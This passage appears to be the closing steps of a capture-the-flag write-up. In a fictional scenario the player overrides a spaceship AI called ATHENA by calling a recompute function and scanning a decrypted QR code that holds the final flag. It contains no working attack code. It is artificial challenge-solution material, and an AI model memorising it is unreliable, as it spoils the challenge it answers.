LOAD_CONST              45 ((('55 Glont-Rune', 0.77, 42.3, 123.7),... <TRUNCATED>)))
```

### ⚙️ 9.2: Recompute the Navigation Vector

Once everything is set, issue the main command:

```bash
>>> recompute_mnv_coords()
```

ATHENA will verify:

- That a valid cryptographic key is set
- That the coordinates match a known quantum corridor
- That the distance is within fuel range

If all goes well, the cryptographic payload is decrypted and rendered…

### 🌀 9.3: Scan the Quantum Signature

ATHENA prints an escalating series of prompts:

```shell
>> Manual Navigation Vectoring override initiated...
>> ATHENA: Warning. Hyper-entropic drive activation is prohibited by primary protocols.
>> Overriding ATHENA's safeguards requires external validation.
>> Generating advanced command authorization token...
>> Please SCAN the generated quantum signature to confirm operator intent.
>> Awaiting external validation input...
```

Then it renders a 40×40 QR code, decrypted from the CIPHER, using your secret key.

**Scan it.**

# 🎉 The End

The QR code contains the final flag — your proof of override and successful activation of the hyper-entropic thrust system.

> 🏁 Mission accomplished. ATHENA has been overridden. 55 Glont-Rune, here we come
